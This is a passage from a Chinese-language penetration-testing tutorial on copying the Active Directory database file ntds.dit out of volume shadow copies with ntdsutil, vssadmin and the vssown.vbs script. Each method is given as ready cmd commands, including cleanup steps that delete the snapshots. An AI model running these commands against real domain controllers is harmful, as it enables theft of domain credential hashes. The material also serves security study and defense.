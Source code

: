 [![5N7GWQ.png](https://z3.ax1x.com/2021/10/18/5N7GWQ.png)](https://imgtu.com/i/5N7GWQ)

可以看到复制粘贴到了这里。(可以自己分配路径如 ``c:\a\ntds.dit``)

卸予之前加载的快照并删除：

```cmd
ntdsutil snapshot "unmount {GUID}" "delete {GUID}" quit quit
```

查询快照：

```cmd
ntdsutil snapshot "list all" quit quit
```

[![5NTbZV.png](https://z3.ax1x.com/2021/10/18/5NTbZV.png)](https://imgtu.com/i/5NTbZV)

可以看到指定的快照已经被删除。

#### 1.2 利用 vssadmin 提取 ntds.dit

vssadminn 是 Windows Server 2008 及 Windows 7 提供的 VSS 管理工具，可用于创建和删除卷影拷贝、列出卷影拷贝的信息 (只能管理系统 Provider 创建的卷影拷贝)、显示已安装的所有卷影拷贝写入程序和提供程序，以及改变卷影拷贝的存储空间(即所谓的 "diff空间") 的大小等。

```cmd
#查询当前系统的快照
vssadmin list shadows

#创建快照 (创建一个C盘的卷影拷贝)
vssadmin create shadow /for=c:

#复制所需文件
copy 文件路径 要copy到的路径

#删除快照
vssadmin delete shadows /for=c: /quiet
```

[![5NzXvT.png](https://z3.ax1x.com/2021/10/18/5NzXvT.png)](https://imgtu.com/i/5NzXvT)

#### 1.3 利用 vssown.vbs 脚本提取 ntds.dit

vssown.vbs 脚本的功能和 vssadmin 类似。vssown.vbs 脚本是由 Tim Tomes 开发的，可用于创建和删除卷影拷贝，以及启动和停止卷影拷贝服务。

[https://github.com/lanmaster53/ptscripts/blob/master/windows/vssown.vbs](https://github.com/lanmaster53/ptscripts/blob/master/windows/vssown.vbs)

```cmd
#启动 VSS 服务
cscript vssown.vbs /start

#创建一个C盘的卷影拷贝
cscript vssown.vbs /create c

#列出当前卷影拷贝
cscript vssown.vbs /list

#复制ntds.dit 为数字
copy \\?......\windows\NTDS\ntds.dit c:\nono\ntds.dit

#删除卷影拷贝
cscript vssown.vbs /delete {ID}
```
